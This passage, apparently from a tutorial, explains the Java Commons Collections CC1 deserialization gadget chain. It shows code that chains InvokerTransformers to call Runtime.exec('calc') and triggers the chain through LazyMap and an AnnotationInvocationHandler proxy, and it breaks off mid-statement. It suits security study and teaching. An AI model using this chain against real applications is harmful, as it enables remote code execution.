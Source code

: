 In `readObject`, it's call the `entrySet` method of `memberValues`, where `memberValues` was a `Map` and `entrySet` was a method defined in interface `Map`. Look up the `invoke` too

```java
public Object invoke(Object var1, Method var2, Object[] var3) {
    String var4 = var2.getName();
    Class[] var5 = var2.getParameterTypes();
    if (var4.equals("equals") && var5.length == 1 && var5[0] == Object.class) {
        return this.equalsImpl(var3[0]);
    } else if (var5.length != 0) {
        throw new AssertionError("Too many parameters for an annotation method");
    } else {
        byte var7 = -1;
        
        ...

        switch(var7) {
        case 0:
            return this.toStringImpl();
        case 1:
            return this.hashCodeImpl();
        case 2:
            return this.type;
        default:
            Object var6 = this.memberValues.get(var4);
            ...
        }
    }
}
```

The `get` method of will be call with `this.memberValues.get(var4)`.

How can we use there's method? Since the `AnnotationInvocationHandler` implement `InvocationHandler`, it's can be use in dynamic proxy. 
In the `readObject` method, if the `memberValues` set the handler as `AnnotationInvocationHandler` with `Proxy.newProxyInstance()`.
When calling the `entrySet` method, the `invoke` of `AnnotationInvocationHandler` will be call, and the `get` method be invoke.

Now we can try to write the code below

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod",
            new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
    new InvokerTransformer("invoke",
            new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
    new InvokerTransformer("exec",
            new Class[]{String.class}, new Object[]{"calc"})
});

LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap(), chainedTransformer);

Constructor annotationInvocationHandler =
        Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").
                getDeclaredConstructor(Class.class, Map.class);
annotationInvocationHandler.setAccessible(true);
InvocationHandler annoHandler = (InvocationHandler) annotationInvocationHandler.
        newInstance(Override.class, lazyMap);

Map map = (Map) Proxy.
        newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, annoHandler);

InvocationHandler anotherHandler = (InvocationHandler) annotationInvocationHandler.
```